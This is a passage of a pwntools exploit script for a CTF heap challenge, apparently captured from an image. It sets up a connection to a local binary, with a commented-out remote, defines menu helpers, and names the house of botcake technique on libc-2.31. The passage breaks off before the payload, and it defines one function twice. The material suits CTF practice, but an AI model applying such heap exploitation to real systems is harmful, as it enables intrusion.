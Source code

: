 ```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node1.anna.nssctf.cn',28531)
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def add(idx,size,content):
    sla('>',str(1))
    sla('Index: ',str(idx))
    sla('Size: ',str(size))
    sa('Content: ',content)

def delete(idx):
    sla('>',str(2))
    sla('Index: ',str(idx))

def show(idx):
    sla('>',str(3))
    sla('Index: ',str(idx))

def duan():
    gdb.attach(p)
    pause()
def duan():
    gdb.attach(p)
    pause()

#=================
# libc-2.31
# house of botcake
#=================

for i in range(7):
```